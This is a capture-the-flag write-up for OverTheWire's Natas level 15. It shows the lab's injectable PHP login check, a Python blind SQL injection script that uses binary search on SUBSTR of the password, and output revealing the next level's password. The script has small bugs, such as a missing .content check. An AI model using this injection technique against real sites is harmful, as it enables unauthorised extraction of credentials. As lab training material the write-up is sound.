 # Natas Level 15
```bash
Username: natas15
Password: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
URL:      http://natas15.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas15.png" />
    <div align="center">Natas 15</div>
</figure>

Clicking on the "View sourcecode" link:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas15-view-sourcecode.png" />
    <div align="center">Natas 15 - View sourcecode</div>
</figure>

The code is:

```php
/* 
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
*/ 

if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas15', '<censored>'); 
    mysql_select_db('natas15', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    $res = mysql_query($query, $link); 
    if($res) { 
        if(mysql_num_rows($res) > 0) { 
            echo "This user exists.<br>"; 
        } else { 
            echo "This user doesn't exist.<br>"; 
        } 
    } else { 
        echo "Error in query.<br>"; 
    } 

    mysql_close($link); 
} else { 
```

The problem is that we only get to know if rows are returned (and not the actual output).

We must use [blind SQL injection](https://www.owasp.org/index.php/Blind_SQL_Injection)

Lets check out the following python script:

```python
import requests
import string

URL = "http://natas15.natas.labs.overthewire.org/index.php?username=natas16\" and SUBSTR(password, %d, 1) &gt;= binary \"%s\" -- "
auth = ('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')

password = ''
c = string.digits + string.ascii_uppercase + string.ascii_lowercase

while len(password) &lt; 32:
    i = 0
    j = len(c)-1

    while True:
        r = requests.get(URL % (len(password)+1, c[(i + j) // 2]), auth=auth)

        if abs(j - i) < 2:
            if "This user exists" in requests.get(URL % (len(password)+1, c[j]), auth=auth):
                password += c[j]
            else:
                password += c[i]
                print password + "*" * (32 - len(password))
                break

        if "This user exists" in r.content:
            i = (i + j) // 2
        else:
            j = (i + j) // 2

print "Password for natas16 is:", password
```

Using binary search to steal the password char by char.

We get the output:
```bash
W*******************************
Wa******************************
WaI*****************************
WaIH****************************
WaIHE***************************
WaIHEa**************************
WaIHEac*************************
WaIHEacj************************
WaIHEacj6***********************
WaIHEacj63**********************
WaIHEacj63w*********************
WaIHEacj63wn********************
WaIHEacj63wnN*******************
WaIHEacj63wnNI******************
WaIHEacj63wnNIB*****************
WaIHEacj63wnNIBR****************
WaIHEacj63wnNIBRO***************
WaIHEacj63wnNIBROH**************
WaIHEacj63wnNIBROHe*************
WaIHEacj63wnNIBROHeq************
WaIHEacj63wnNIBROHeqi***********
WaIHEacj63wnNIBROHeqi3**********
WaIHEacj63wnNIBROHeqi3p*********
WaIHEacj63wnNIBROHeqi3p9********
WaIHEacj63wnNIBROHeqi3p9t*******
WaIHEacj63wnNIBROHeqi3p9t0******
WaIHEacj63wnNIBROHeqi3p9t0m*****
WaIHEacj63wnNIBROHeqi3p9t0m5****
WaIHEacj63wnNIBROHeqi3p9t0m5n***
WaIHEacj63wnNIBROHeqi3p9t0m5nh**
WaIHEacj63wnNIBROHeqi3p9t0m5nhm*
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
Password for natas16 is: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

We got the password for the next level: **WaIHEacj63wnNIBROHeqi3p9t0m5nhmh**